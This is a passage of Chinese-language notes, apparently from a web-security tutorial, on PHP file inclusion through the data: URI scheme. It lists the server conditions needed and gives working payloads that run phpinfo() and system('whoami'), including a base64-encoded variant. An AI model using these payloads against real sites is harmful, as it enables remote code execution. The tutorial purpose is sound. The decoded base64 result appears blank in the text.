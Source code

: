 



### data:URI schema

利用条件：

1. php版本大于等于php5.2
2. allow_url_fopen = On
3. allow_url_include = On

姿势一：

```
index.php?file=data:text/plain,<?php phpinfo();?>
```



[![img](Untitled.assets/6.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/6.png?raw=true)

执行命令：

```
index.php?file=data:text/plain,<?php system('whoami');?>
```



姿势二：

```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```



加号`+`的url编码为`%2b`，`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：``
[![img](Untitled.assets/7.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/7.png?raw=true)
